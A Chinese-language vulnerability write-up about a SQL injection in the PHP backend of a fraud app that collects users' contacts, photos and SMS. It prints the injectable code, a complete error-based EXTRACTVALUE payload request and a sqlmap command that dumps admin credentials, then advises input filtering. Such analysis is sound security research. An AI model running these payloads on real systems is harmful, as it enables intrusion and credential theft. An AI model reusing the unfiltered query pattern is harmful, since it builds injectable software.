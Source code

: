 #  2025某新版诈骗双端APP通讯录前台SQL注入漏洞  
原创 子午猫  网络侦查研究院   2025-07-13 00:03  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4kCmTUe2v2bujwd3M0M1ICStsbhAHWtth8dQwoBBFoNDafDAzGbm1sCA8bqVWIjs40A8lu9rtuD4yeOOwDNadg/640?wx_fmt=png "")  
  
#   
  
在当今数字化时代，各类应用程序如潮水般涌现，然而，其中不乏一些隐藏着安全隐患的恶意程序，某新版诈骗双端APP便是如此。这款APP不仅试图获取用户的双端通讯录、相册、短信、定位以及已安装APP信息，其代码还毫无加密措施，搭建过程也相对简单，安卓端为原生纯源码，iOS端则是uniapp纯源码，具有一定的迷惑性，引得不少人寻找使用。通过Fofa指纹识别，发现它由Thinkphp5提供高性能框架开发而生，且从后台信息可知其框架为ThinkPHP 5.0.24 ，Debug处于开启状态。接下来，我们将对该APP存在的前台SQL注入漏洞进行详细分析与复现。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREk6pMgmCibhxuVWsibfnrDdybRGkCcWszWmGHMgOOTBAf2f8S5viaKibPBA/640?wx_fmt=other&from=appmsg "")  
## 0x00 漏洞产生根源剖析  
### 漏洞触发点及相关代码逻辑  
  
该漏洞位于APP的 /api.php 文件中。从代码结构来看，通过GET方式传入ID参数，此参数直接进入SQL查询语句，并且在传入过程中未进行任何过滤处理，这就为SQL注入漏洞的产生埋下了隐患。同时，代码中还要求通过POST方式传入img参数，然而实际上传文件的后缀却被写死为.png 。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREd8El63icYY7Xx7nK3n3xGv87YTsEaia3xYJSqOUJt3Zd3trLLpvnx9hw/640?wx_fmt=other&from=appmsg "")  
  
具体来看相关代码：  
```
header('Access-Control-Allow-Origin:*');
header('Content-Type:text/plain;charset=utf-8');
require('conn.php');

function imgbc($image){
    $imageName = "25220_".date("His",time())."_".rand(1111,9999).'.png';
    if (strstr($image,",")){
      $image = explode(',',$image);
      $image = $image[1];
    }
    $path = "./uploads/".date("Ymd",time());
    if (!is_dir($path)){ //判断目录是否存在 不存在就创建
      mkdir($path,0777,true);
    }
    $imageSrc= $path."/". $imageName; //图片名字
    $r = file_put_contents($imageSrc, base64_decode($image));//返回的是字节数
    return"/uploads/".date("Ymd",time())."/". $imageName;
}

if(isset($_POST['img'])){
    $img = imgbc('data:image/jpg;base64,'.$_POST['img']);
    $userid = $_GET['id'];
    $sqlUser = "select * from app_user where name = '$userid'";
    $resultUser = mysqli_query($conn,$sqlUser);
    if ($resultUser->num_rows > 0) {
        $row = $resultUser->fetch_assoc();
        $user_id = $row['id'];
        $sql = "INSERT INTO app_xiangce VALUES (null, '".$user_id."',null,'".$img."', '".time()."')";
        if ($conn->query($sql) == TRUE) {
            echo"成功";
        } else {
            echo"Error: ". $sql. "<br>". $conn->error;
        }
    }else{
         echo"Error: ". $sql. "<br>". $conn->error;
    }
}

```  
  
在这段代码中，当通过POST方式接收到img参数后，先经过imgbc函数处理，生成一个以特定格式命名的图片路径。然后获取通过GET传入的id参数，用于查询app_user表中对应的用户信息。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5cGNmvfrEicd34KiaNEhz7XREEiaXtZNLcCaNFlZRrTU2cgf1VZ7GLeITwWGfgAbrQmmeiadQibLfjDaGQ/640?wx_fmt=other&from=appmsg "")  
  
如果查询到用户信息，便将相关数据插入到app_xiangce表中。但由于id参数直接用于SQL查询且未过滤，攻击者可以利用这一点构造恶意的SQL语句，从而实现SQL注入攻击。  
## 0x01 漏洞复现过程详解  
### 利用Payload进行爆库  
  
我们可以使用以下Payload来进行爆库操作：  
```
POST /api.php?id='+AND+EXTRACTVALUE(6165,CONCAT(0x5c,(SELECT+(USER()))))--+KrBJ HTTP/1.1Host: 192.168.140.128Cache-Control: max-age=0Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36Content-Type: application/x-www-form-urlencodedAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Length: 5img=1
```  
  
这个Payload利用了MySQL的EXTRACTVALUE函数，通过构造特殊的字符串，将查询的用户信息以一种可被识别的方式暴露出来。在这个Payload中，CONCAT函数将特定字符与查询的用户名连接起来，而EXTRACTVALUE函数则会尝试解析这个构造的字符串，由于其中包含不符合XML格式的内容，从而导致数据库报错，在报错信息中便会显示出我们想要获取的用户名。  
### 使用sqlmap工具进一步挖掘  
  
除了手动构造Payload进行简单的爆库操作外，我们还可以借助强大的sqlmap工具来深入挖掘数据库信息。例如，使用以下命令：  
```
Python sqlmap.py -r a.txt --level=3 --dbms=mysql -T app_admin -C name,password --dump

```  
  
这里的 -r 参数指定了包含HTTP请求的文件a.txt ， --level参数设置为3表示使用较高的检测等级，以提高检测的准确性和全面性。 --dbms参数指定数据库类型为mysql 。 -T参数指定要查询的表为app_admin ， -C参数指定要获取的列分别为name和password ，最后 --dump参数表示将查询到的数据进行转储，也就是获取并显示这些数据，从而爆出管理员表的账密信息。  
  
这种SQL注入漏洞的存在，对于使用该APP的用户以及相关系统的安全性都构成了严重威胁。一方面，攻击者可以通过爆库获取用户的敏感信息，如账号密码等，进一步实施诈骗等恶意行为；另一方面，对于APP运营方来说，数据库的泄露可能导致严重的法律和声誉问题。因此，及时发现并修复此类漏洞，对于保障用户和系统的安全至关重要。同时，开发者在开发过程中应加强对输入参数的过滤和验证，遵循安全的编程规范，从源头上杜绝此类漏洞的产生。  
  
  
  
  
**END**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4kCmTUe2v2bujwd3M0M1ICStsbhAHWtt0VVqCfFLOVnpmeNJ3R59doWtI0AmqLn4Qkic8aAS06l0pATjcYx10zw/640?wx_fmt=png "")  
  
  
